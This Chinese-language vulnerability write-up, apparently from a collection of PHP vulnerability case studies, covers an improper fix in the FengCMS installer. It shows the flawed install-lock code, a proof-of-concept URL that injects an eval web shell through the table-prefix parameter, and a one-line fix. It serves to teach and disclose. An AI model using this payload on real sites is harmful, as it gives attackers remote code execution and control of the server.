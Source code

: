 ## 1.4 WooYun-2014-76648：FengCMS 修復不當導致getshell

### 詳細說明
之前提交過一次跟http://**.**.**.**/bugs/wooyun-2014-067508
漏洞重複了。現在重新看一下。發現修復的有問題，而且install目錄默認是不會自動刪除的，依然可以getshell！

```php
header("Content-type:text/html;charset=utf-8");

define("TPL_INCLUDE",1);

// 定義當前路徑

define('ABS_PATH',dirname(__FILE__));

define('ROOT_PATH',dirname(ABS_PATH));

if(!$_GET['step'])$_GET['step']=1;

$config_file=ROOT_PATH.'/config.php';

$install_file=ABS_PATH.'/install.sql';

//這裡是修改添加的程式碼，由於是輸出javascript,所以可以無視

if(file_exists(ROOT_PATH.'/upload/INSTALL')){

  echo '<script type="text/javascript">alert("系統已安裝，如需要重新安裝，請手工刪除upload目錄下的INSTALL文件！");</script>';

  echo '<meta http-equiv="refresh" content="0;url=/">';

}
```

所以直接進行setp = 4 的步驟，其中只有DB_PREFIX字段不影響，可以用來getshell。

### 漏洞證明

直接訪問URL：

```php
.../install/index.php?host=localhost&user=root&password=root&dbname=hello&prefix=f_');@eval($_POST[101]);('&url_type=1&step=4
```
![1.4-1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/1.4/1.4-1.png)

![1.4-2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/1.4/1.4-2.png)

![1.4-3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/1.4/1.4-3.png)




### 修復方案
echo 完了

exit()一下